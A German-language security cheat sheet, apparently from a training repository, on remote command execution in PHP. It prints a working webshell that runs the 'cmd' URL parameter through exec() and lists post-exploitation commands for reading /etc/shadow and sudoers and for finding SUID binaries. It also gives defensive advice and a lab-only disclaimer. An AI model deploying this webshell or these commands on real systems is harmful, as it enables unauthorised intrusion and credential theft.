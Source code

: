 # 🐘 phpRCE Cheat Sheet




## Inhaltsverzeichnis
- [Einleitung: Remote Command Execution in PHP](#einleitung-remote-command-execution-in-php)
- [Beispiel: Verwundbarer PHP-Code](#beispiel-verwundbarer-php-code)
- [Sicherheitsanalyse](#sicherheitsanalyse)
- [Typische Post-Exploitation-Befehle](#typische-post-exploitation-befehle)
- [Anwendungsszenarien (für Lab- oder CTF-Zwecke)](#anwendungsszenarien-für-lab--oder-ctf-zwecke)
- [Verteidigung (Blue Team)](#verteidigung-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung: Remote Command Execution in PHP

Diese Datei beschreibt ein typisches Beispiel für **Remote Command Execution (RCE)** durch eine unsichere PHP-Webanwendung.  
Der Code ermöglicht es Angreifern, über einen GET-Parameter (`?cmd=`) beliebige Shell-Befehle auf dem Zielsystem auszuführen – **ein schwerwiegender Sicherheitsfehler**.



## Beispiel: Verwundbarer PHP-Code

```php
<?php
  if( empty( $_GET["cmd"] ) ){
    echo "Useful things:\n";
    echo "  uname -a\n";
    echo "  id\n";
    echo "  cat /etc/passwd\n";
    echo "  cat /etc/shadow\n";
    echo "  cat /etc/group\n";
    echo "  cat /etc/group | grep admin\n";
    echo "  cat /etc/sudoers\n";
    echo "  ls -la /home\n";
    echo "  ls -la /root\n";
    echo "  ls -la /var/www\n";
    echo "  which nc\n";
    echo "  which wget\n";
    echo "  find / -type f -perm -4000\n";
  }
  echo "<pre>";
  exec( $_GET["cmd"], $out );
  echo htmlentities( join( "\n", $out ) );
  echo "</pre>";
?>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Sicherheitsanalyse

### ❌ Problem:

Die Funktion `exec($_GET["cmd"])` erlaubt die ungefilterte Ausführung von Systembefehlen, die über die URL übergeben werden.

→ Beispiel:
`http`
```http://target.local/rce.php?cmd=whoami```

### 🛠️ Besser wäre:

- Verwendung vorbereiteter Kommandos ohne Benutzereingaben.
- Whitelisting erlaubter Befehle.
- Nutzung von `escapeshellcmd()` und `escapeshellarg()` (nur bedingt sicher).
- Oder: Verzicht auf Shell-Zugriffe aus Webanwendungen.



## Typische Post-Exploitation-Befehle

| Befehl                       | Beschreibung                                          |                                   |
| ---------------------------- | ----------------------------------------------------- | --------------------------------- |
| `uname -a`                   | Kernel & OS-Details                                   |                                   |
| `id`                         | Aktueller Benutzer & Gruppen                          |                                   |
| `cat /etc/passwd`            | Benutzerliste                                         |                                   |
| `cat /etc/shadow`            | Passwort-Hashes (nur als root lesbar)                 |                                   |
| `cat /etc/group`             | Gruppenliste                                          |                                   |
| `cat /etc/group`             | grep admin                                            | Prüfen, wer in "admin"-Gruppe ist |
| `cat /etc/sudoers`           | Wer hat Root-Rechte über sudo                         |                                   |
| `ls -la /home`               | Benutzerverzeichnisse prüfen                          |                                   |
| `ls -la /root`               | Root-Verzeichnis prüfen (meist geschützt)             |                                   |
| `ls -la /var/www`            | Webverzeichnis analysieren                            |                                   |
| `which nc`                   | Ist Netcat vorhanden?                                 |                                   |
| `which wget`                 | Ist wget verfügbar für Datei-Downloads?               |                                   |
| `find / -type f -perm -4000` | Alle SUID-Binaries finden (root privilege escalation) |                                   |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Anwendungsszenarien (für Lab- oder CTF-Zwecke)

- 🧪 Testen von Webshells in Laborumgebungen
- 🔍 Auffinden & Ausnutzen von RCE-Schwachstellen
- 🔐 Erkennen typischer Privilege Escalation-Pfade
- 🛠️ Automatisierung mit curl, Burp oder Exploitskripten

 

## Verteidigung (Blue Team)

- Verwende niemals Benutzereingaben direkt in `exec()`, `system()`, `passthru()` etc.
- Setze Application Firewalls ein (z. B. ModSecurity).
- Nutze sichere Webframeworks mit Sandboxing.
- Begrenze Rechte des Webservers (z. B. www-data darf nicht root sein).
- Erkenne Anomalien per Logüberwachung (z. B. suspicious cmd= Requests).



## Siehe auch

- [sql_injection_to_shell.md](/03-web-security/angriffe/sql-injektionen/sql_injection_to_shell.md)
- [break_and_fix_query.md](/03-web-security/angriffe/sql-injektionen/break_and_fix_query.md)
- [union_based_attack.md](/03-web-security/angriffe/sql-injektionen/union_based_attack.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---